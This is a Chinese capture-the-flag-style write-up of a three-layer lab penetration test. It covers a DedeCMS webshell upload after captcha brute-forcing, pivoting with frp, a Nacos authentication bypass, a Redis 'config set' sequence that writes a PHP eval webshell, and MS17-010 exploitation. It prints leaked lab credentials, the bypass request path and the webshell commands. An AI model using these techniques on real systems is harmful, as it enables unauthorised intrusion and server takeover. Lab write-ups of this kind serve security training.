# 三层渗透测试-DMZ区域 & 二三层设备区域-先知社区

> **来源**: https://xz.aliyun.com/news/16713  
> **文章ID**: 16713

---

# 目标

任务要求：

拿下DMZ区设备后获取DMZ区administrator桌面下flag文件值

拿下二层网络设备获取某服务内的flag

拿下二层网络设备后获取根目录下flag文件值

拿下三层网络设备后获取pro用户桌面下的flag文件值

​

# DMZ区域渗透

## 信息收集

首先先进行信息收集，这里我们可以选择多种的信息收集方式，例如nmap如此之类的，我的建议是，可以通过自己现有的手里小工具，例如无影，密探这种工具，进行一个信息收集。以免在信息收集的环节，遗漏一些信息，导致后续渗透任务的失败。话不多说，我们先确定靶机地址

使用ifconfig命令，查看kali攻击机与DMZ靶机相连接的网卡，这里得到一个网段地址：192.168.50.0/24  


使用nmap对其网段进行扫描  


扫出来一个192.168.50.128开放了8080端口，这里建议访问一下，是不是我们的目标靶机  


成功访问到一个cms平台，那证明上述ip靶机已经发现。那我们还要继续进行一些常见的信息收集，利用目录扫描工具进行扫描

使用dirsearch进行工具的扫描  


得到如下结果，可能会有用的

```
/member/login.php                                 
/robots.txt 
/data/sessions
```

再用我们自带的字典进行查找：这个地方我直接用无影来扫了  
 

这里我们得到一个管理后台的地址  


又得到一个与sql文件有关的txt文件  
我们现在先查看此sql文件存在那些相关信息  
发现FTP服务的账户与密码  


以及SMTP服务器的相关密码信息。

我们现在就需要去连接一下FTP服务器，看看上面存在什么文件。



发现上面服务器存在dedecms.zip估计就是网站的源码，先把他pull下来  


我们将我们得到的信息进行总结

```
端口开放信息：
21/tcp   open  ftp
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
8080/tcp open  http-proxy
  
目录信息：
/member/login.php  //普通用户登录                            
/robots.txt 
/data/sessions
/dede/login.php  //后台管理用户登录
  
文件信息：
/install/sql-dfdata.txt //sql文件信息
  
服务器相关信息：
FTP   wwwroot/1
SMTP  desdev/7260444huxiao
  
网站源码信息：
dedecms.zip

网站系统版本：
dedecms57
```

## 源码审计&GETSHELL

通过上述的信息收集，我们已经知道/dede/login.php 是网站后台管理的登录页面，那我们可以先从此处入手逐渐分析  


先分析这个目录下的文件：我们的目标是为了通过分析代码，找到有无我们可以利用的漏洞点，利用管理员账户的账户与密码信息，或者是登录框存在sql注入。登陆到后台找到有无存在文件上传getshell的功能点。话不多说，先进行分析

先来到login.php

```
<?php
/**
 * 后台登陆
 *
 * @version        $Id: login.php 1 8:48 2010年7月13日Z tianya $
 * @package        DedeCMS.Administrator
 * @copyright      Copyright (c) 2007 - 2010, DesDev, Inc.
 * @license        http://help.dedecms.com/usersguide/license.html
 * @link           http://www.dedecms.com
 */
require_once(dirname(__FILE__).'/../include/common.inc.php');
require_once(DEDEINC.'/userlogin.class.php');
if(empty($dopost)) $dopost = '';

//检测安装目录安全性
if( is_dir(dirname(__FILE__).'/../install') )
{
    if(!file_exists(dirname(__FILE__).'/../install/install_lock.txt') )
    {
      $fp = fopen(dirname(__FILE__).'/../install/install_lock.txt', 'w') or die('安装目录无写入权限，无法进行写入锁定文件，请安装完毕删除安装目录！');
      fwrite($fp,'ok');
      fclose($fp);
    }
    //为了防止未知安全性问题，强制禁用安装程序的文件
    if( file_exists("../install/index.php") ) {
        @rename("../install/index.php", "../install/index.php.bak");
    }
    if( file_exists("../install/module-install.php") ) {
        @rename("../install/module-install.php", "../install/module-install.php.bak");
    }
	$fileindex = "../install/index.html";
	if( !file_exists($fileindex) ) {
		$fp = @fopen($fileindex,'w');
		fwrite($fp,'dir');
		fclose($fp);
	}
}
//更新服务器
require_once (DEDEDATA.'/admin/config_update.php');

if ($dopost=='showad')
{
    include('templets/login_ad.htm');
    exit;
}
//检测后台目录是否更名
$cururl = GetCurUrl();
if(preg_match('/dede\/login/i',$cururl))
{
    $redmsg = '<div class=\'safe-tips\'>您的管理目录的名称中包含默认名称dede，建议在FTP里把它修改为其它名称，那样会更安全！</div>';
}
else
{
    $redmsg = '';
}

//登录检测
$admindirs = explode('/',str_replace("\",'/',dirname(__FILE__)));
$admindir = $admindirs[count($admindirs)-1];
if($dopost=='login')
{
    $validate = empty($validate) ? '' : strtolower(trim($validate));
    $svali = strtolower(GetCkVdValue());
    if(($validate=='' || $validate != $svali) && preg_match("/6/",$safe_gdopen)){
        ResetVdValue();
        ShowMsg('验证码不正确!','login.php',0,1000);
        exit;
    } else {
        $cuserLogin = new userLogin($admindir);
        if(!empty($userid) && !empty($pwd))
        {
            $res = $cuserLogin->checkUser($userid,$pwd);
            //success
            if($res==1)
            {
                $cuserLogin->keepUser();
                if(!empty($gotopage))
                {
                    ShowMsg('成功登录，正在转向管理管理主页！',$gotopage);
                    exit();
                }
                else
                {
                    ShowMsg('成功登录，正在转向管理管理主页！',"index.php");
                    exit();
                }
            }
            //error
            else if($res==-1)
            {
                ResetVdValue();
				ShowMsg('你的用户名不存在!','login.php',0,1000);
				exit;
            }
            else
            {
                ResetVdValue();
                ShowMsg('你的密码错误!','login.php',0,1000);
				exit;
            }
        }

        //password empty
        else
        {
            ResetVdValue();
            ShowMsg('用户和密码没填写完整!','login.php',0,1000);
			exit;
        }
    }
}
include('templets/login.htm');
```

登录逻辑：

这里存在一个函数，两个参数：

```
checkUser()
$userid
$pwd
```

还注意到在代码的开头，包含了两个文件

```
require_once(dirname(__FILE__).'/../include/common.inc.php');
require_once(DEDEINC.'/userlogin.class.php');
```

我们先全局搜索checkUser()函数



这个地方定义了这个函数，我们分析以后，还是没有看见有用的信息，至少得找到数据库sql文件才行。但是经过一番查询后无果，所以我先决定尝试下弱口令。看看是否能登录进去  


由于此登录框存在验证码登录，我们需要用到一个插件进行爆破。这里给出地址  
地址：<https://github.com/f0ng/captcha-killer-modified>

配置教程：<https://blog.csdn.net/weixin_72986003/article/details/144359468?ops_request_misc=%257B%2522request%255Fid%2522%253A%252242e73ae4142c000e7df9f2123c3842f0%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=42e73ae4142c000e7df9f2123c3842f0&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-9-144359468-null-null.142^v101^pc_search_result_base8&utm_term=%E9%AA%8C%E8%AF%81%E7%A0%81%E7%88%86%E7%A0%B4&spm=1018.2226.3001.4187>

​

这里已经配置好了，我们现在就开始爆破：



成功找到弱口令密码，得到管理员账户与密码

```
管理员账户密码：
admin/admin
```

现在进行登录：查看后台存在那些功能点，根据后台功能点，我们去反向审计源代码，查看是否存在漏洞。

进入首页后，我们发现在附件管理一栏，发现存在上传文件的功能点



上述提示到，系统的上传附件/其他 类型的文件，可以通过其修改系统参数而进行更改，那我们现在就需要找到系统参数的修改功能点，添加后门文件类型。



那这个地方，在附件管理的允许上传文件的类型中，我们可以去添加我们想执行的后门文件类型，例如

```
.php/.jsp/.asp
```

等诸如此类的文件，这里我们先上传一个shell，看看是否能执行。



但是这里没有上传成功，那这个地方我们没办法再次进行利用，现在只能去审计源码，看看后台哪里还存在功能点。

审计到一处管理文件功能点：

```
dede/file_manage_main.php
```

```
<?php
/**
 * 文件查看
 *
 * @version        $Id: file_manage_view.php 1 8:48 2010年7月13日Z tianya $
 * @package        DedeCMS.Administrator
 * @copyright      Copyright (c) 2007 - 2010, DesDev, Inc.
 * @license        http://help.dedecms.com/usersguide/license.html
 * @link           http://www.dedecms.com
 */
require_once(dirname(__FILE__)."/config.php");
CheckPurview('plus_文件管理器');
require_once(DEDEINC."/oxwindow.class.php");
$activepath = str_replace("..", "", $activepath);
$activepath = preg_replace("#^\/{1,}#", "/", $activepath);
if($activepath == "/") $activepath = "";
if($activepath == "") $inpath = $cfg_basedir;
else $inpath = $cfg_basedir.$activepath;

//显示控制层
//更改文件名
if($fmdo=="rename")
{
    if($activepath=="") $ndirstring = "根目录";
    $ndirstring = $activepath;
    $wintitle = "&nbsp;文件管理";
    $wecome_info = "文件管理::更改文件名 [<a href='file_manage_main.php?activepath=$activepath'>文件浏览器</a>]</a>";
    $win = new OxWindow();
    $win->Init("file_manage_control.php","js/blank.js","POST");
    $win->AddHidden("fmdo",$fmdo);
    $win->AddHidden("activepath",$activepath);
    $win->AddHidden("filename",$filename);
    $win->AddTitle("更改文件名，当前路径：$ndirstring");
    $win->AddItem("旧名称：","<input name='oldfilename' type='input' class='alltxt' id='oldfilename' size='40' value='$filename'>");
    $win->AddItem("新名称：","<input name='newfilename' type='input' class='alltxt' size='40' id='newfilename'>");
    $winform = $win->GetWindow("ok");
    $win->Display();
}
//新建目录
else if($fmdo=="newdir")
{
    if($activepath=="") $activepathname="根目录";
    else $activepathname=$activepath;

    $wintitle = "&nbsp;文件管理";
    $wecome_info = "&nbsp;文件管理::新建目录 [<a href='file_manage_main.php?activepath=$activepath'>文件浏览器</a>]</a>";
    $win = new OxWindow();
    $win->Init("file_manage_control.php","js/blank.js","POST");
    $win->AddHidden("fmdo",$fmdo);
    $win->AddHidden("activepath",$activepath);
    $win->AddHidden("token",make_hash());
    $win->AddTitle("当前目录 $activepathname ");
    $win->AddItem("新目录：","<input name='newpath' type='input' class='alltxt' id='newpath'>");
    $winform = $win->GetWindow("ok");
    $win->Display();
}

//移动文件
else if($fmdo=="move")
{
    $wintitle = "&nbsp;文件管理";
    $wecome_info = "&nbsp;文件管理::移动文件 [<a href='file_manage_main.php?activepath=$activepath'>文件浏览器</a>]</a>";
    $win = new OxWindow();
    $win->Init("file_manage_control.php","js/blank.js","POST");
    $win->AddHidden("fmdo",$fmdo);
    $win->AddHidden("activepath",$activepath);
    $win->AddHidden("filename",$filename);
    $win->AddTitle("新位置前面不加'/'表示相对于当前位置，加'/'表示相对于根目录。");
    $win->AddItem("被移动文件：",$filename);
    $win->AddItem("当前位置：",$activepath);
    $win->AddItem("新位置：","<input name='newpath' type='input' class='alltxt' id='newpath' size='40'>");
    $winform = $win->GetWindow("ok");
    $win->Display();
}

//删除文件
else if($fmdo=="del")
{
    $wintitle = "&nbsp;文件管理";
    $wecome_info = "&nbsp;文件管理::删除文件 [<a href='file_manage_main.php?activepath=$activepath'>文件浏览器</a>]</a>";
    $win = new OxWindow();
    $win->Init("file_manage_control.php","js/blank.js","POST");
    $win->AddHidden("fmdo",$fmdo);
    $win->AddHidden("activepath",$activepath);
    $win->AddHidden("filename",$filename);
    if(@is_dir($cfg_basedir.$activepath."/$filename"))
    {
        $wmsg = "你确信要删除目录：$filename 吗？";
    }
    else
    {
        $wmsg = "你确信要删除文件：$filename 吗？";
    }
    $win->AddTitle("删除文件确认");
    $win->AddMsgItem($wmsg,"50");
    $winform = $win->GetWindow("ok");
    $win->Display();
}

//编辑文件
else if($fmdo=="edit")
{
    if(!isset($backurl))
    {
        $backurl = "";
    }

    $activepath = str_replace("..","",$activepath);
    $filename = str_replace("..","",$filename);
    $file = "$cfg_basedir$activepath/$filename";
    $content = "";
    if(is_file($file))
    {
        $fp = fopen($file,"r");
        $content = fread($fp,filesize($file));
        fclose($fp);
        $content = dede_htmlspecialchars($content);
    }
    $contentView = "<textarea name='str' id='str' style='width:99%;height:450px;background:#ffffff;'>$content</textarea>\r
";
    $GLOBALS['filename'] = $filename;
    $path_parts  = pathinfo($filename);
    if ( $path_parts['extension'] == 'php' )
    {
        $GLOBALS['extension'] = 'text/x-php';
    } else if($path_parts['extension'] == 'js'){
        $GLOBALS['extension'] = 'text/javascript';
    } else if($path_parts['extension'] == 'css'){
        $GLOBALS['extension'] = 'text/css';
    } else {
        $GLOBALS['extension'] = 'text/html';
    }
    $ctp = new DedeTagParse();
    $ctp->LoadTemplate(DEDEADMIN."/templets/file_edit.htm");
    $ctp->display();
}
/*编辑文件，可视化模式
else if($fmdo=="editview")
{
    if(!isset($backurl))
    {
        $backurl = "";
    }
    if(!isset($ishead))
    {
        $ishead = "";
    }
    $activepath = str_replace("..","",$activepath);
    $filename = str_replace("..","",$filename);
    $file = "$cfg_basedir$activepath/$filename";
    $fp = fopen($file,"r");
    @$content = fread($fp,filesize($file));
    fclose($fp);
    if((eregi("<html",$content) && eregi("<body",$content)) || $ishead == "yes")
    {
        $contentView = GetEditor("str",$content,"500","Default","string","true");
    }
    else
    {
        $contentView = GetEditor("str",$content,"500","Default","string","false");
    }
    $GLOBALS['filename'] = $filename;
    $ctp = new DedeTagParse();
    $ctp->LoadTemplate(DEDEADMIN."/templets/file_edit_view.htm");
    $ctp->display();
}
*/
//新建文件
else if($fmdo=="newfile")
{
    $content = "";
    $GLOBALS['filename'] = "newfile.txt";
    $contentView = "<textarea name='str' style='width:99%;height:400'></textarea>\r
";
    $GLOBALS['token'] = make_hash();
    $ctp = new DedeTagParse();
    $ctp->LoadTemplate(DEDEADMIN."/templets/file_edit.htm");
    $ctp->display();
}

//上传文件
else if($fmdo=="upload")
{
    $ctp = new DedeTagParse();
    $ctp->LoadTemplate(DEDEADMIN."/templets/file_upload.htm");
    $ctp->display();
}
```



这个地方，上传的代码，并没有存在任何的上传过滤，对文件内容，以及常见的恶意文件后缀名没有进行任何的过滤，导致我们可以轻松获得shell。



成功上传shell。但是在平常的练习中，尽可能找到多的代码漏洞点。所以，我们继续审计代码，查看有无其他漏洞点。



```
/dede/media_main.php
```

在此处，我们发现，他调用了上述文件管理的功能点，所以这里也可上传shell,对应到web站点上  


这里我就不在继续进行源码分析，我们先继续往下进行。

访问我们shell。使用蚁剑进行连接

```
shell地址：
http://192.168.50.128:8080/shell.php
```

成功获得flag  
flag{78477a738c06620b872421af357d2cd5}

​

完成我们的DMZ区域的任务。

​

# 目标

拿下二层网络设备获取某服务内的flag

​

# 二层设备区域渗透

## 前期渗透准备

对于内网的渗透，我们前期要考虑诸多的因素，比如内网的首台机器，出不出网。这是一点，其次是内网环境到底是存在内网域或者是其他，渗透手法也不近相同。除此之外，内网的渗透其实和外网相差不大，但是在前期的信息收集等方面还是存在一定的差异。在前期渗透准备时，我们需要将我们的工具上传到我们此时已经拿到shell的服务器或者主机上。因为在宿主机上是不存在我们的渗透的工具的，如果宿主机出网，我们能够下载工具也无不可。

​

先连接蚁剑进行工具的上传



成功上传至我们的DMZ区域。现在就要进行信息的收集。

​

## 二层区域渗透

常见的来说，我们需要知晓在此机器上存在几张网卡，网段ip是什么。所以先行找到这个部分。



这里我们可以发现在二网卡的网段

```
192.168.60.0/24
```

所以现在就好办了，我们用我们已经上传的fscan进行扫描针对这个网段，看看能不能扫描出来一些有用的东西。



成功扫描以后，会在fscan的当前目录下生成一个result.txt文件，我们可以进行查看。


在其扫描的结果内我们可以看见，我们的fscan的POC扫描成功扫描出来一个在192.168.60.129的8848的一个nacos的一个漏洞。

由于我们的攻击机是不能直接访问到二层设备区域的，这里咱们使用frp进行反向代理，使我们的攻击机也能正常访问我们的二层区域。

在kali攻击机中开启fprs.exe(服务端)，frps.toml配置文件默认为7000端口，用于和客户端进行交互



然后在kali上开启服务，



再在DMZ区域进行连接。



这里就已经成功了。我们可以尝试用kali的工具去测试一下到底是否能连接成功。



成功能ping到。我们现在就对刚才那个漏洞进行测试。

这里用nuclei也能扫描到一些漏洞



因为这些密码是加密以后的，还原还是比较困难，或者大家可以去CMD5上面去查，我没钱，就只能用漏洞重置密码了。

文章分析：  
<https://blog.csdn.net/weixin_51345872/article/details/127066347?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522cb0d78319a8457953a471f680a14840e%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=cb0d78319a8457953a471f680a14840e&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-5-127066347-null-null.142^v101^pc_search_result_base8&utm_term=nacos-authentication-bypass&spm=1018.2226.3001.4187>

```
/nacos/v1/auth/users?username=test123&password=test123
```

访问上述路由后会创建一个账号

```
账号密码：
test123/test123
```



成功创建，这里创建账号的时候我们使用的POST方式。并不是GET。

创建成功后，直接登录：



这是第一个flag  


注意到还有其他的信息，我们这里看到。



存在一个password。当然现在不知道是哪里的密码。我们这里再用namp去扫一扫。

这里用nmap进行扫描的时候，我们也要进行代理，这里我们用proxychains进行代理。

在/etc/proxychains4.conf,添加如下配置。



这个地方就和刚才我们在frp中的攻击机地址一样即可。我们在进行nmap扫描的时候，就需要加一个前缀进行代理扫描。

例如：



这里纯扫描是不能行的，开启代理扫即可  


这里扫出来了一个/phpinfo.php

我们能够得到一些敏感信息：

```
/var/www/html
```



能够得到我们的绝对路径

我们之前用fscan的方式也扫描出来一个redis的默认服务端口6379，那我们之前得到一个密码现在就起到了一个作，我们可以写一个shell进去。

​

```
config set dir /var/www/html
config set dbfilename shell.php
set x "\r
\r
<?php @eval($_POST['cmd']);?>"
save	
```



前往蚁剑进行连接，此处可以使用蚁剑自行配置代理，或proxifier指定文件



在根目录下找到flag。

到这里第二层的渗透也结束了，我们现在要准备进行第三层的渗透测试

​

## 三层区域信息收集

老样子上传fscan到二层设备上



这里扫描出来一个MS17-010的漏洞

直接利用工具进行注入利用



然后再注入dll文件  


这个过程中会创建一个账号密码分别为：

```
admin01/Config123!@#
```

我们进行连接



成功获得flag
